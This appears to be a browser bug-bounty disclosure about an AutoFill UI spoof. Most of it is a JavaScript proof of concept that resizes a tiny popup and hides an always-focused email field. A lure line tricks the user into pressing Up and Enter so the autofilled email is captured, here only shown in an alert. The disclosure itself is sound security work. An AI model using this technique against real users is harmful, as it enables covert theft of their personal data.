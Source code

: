 ```yaml
---
title: AutoFill UI spoof (Awarded $1000)
---
```


AutoFill is not be meant to be usable via keyboard shortcuts when its hidden.  
But with a certain window size it would attempt to render over the url bar.

```js
let w = window.open('', '', 'width=1,height=1');
w.resizeTo(250, 150);
w.eval(`
let input = document.createElement("input");
input.type = "email";
input.autocomplete = "email";
input.name = "email";
input.size = "1";
input.style.opacity = '0';
input.onkeypress = e => {
    e.preventDefault();
}
window.onmousedown = e => {
    // ignore mouse clicks
    e.preventDefault();
}
input.onchange = e => {
    alert(e.srcElement.value);
    e.srcElement.value = "";
}
document.body.appendChild(input);
setInterval(() => {
    input.focus({preventScroll: true});
}, 1000);
`);
let p = document.createElement('p');
p.innerText = 'Please press the Up arrow then Enter :)';
w.document.body.appendChild(p);
```
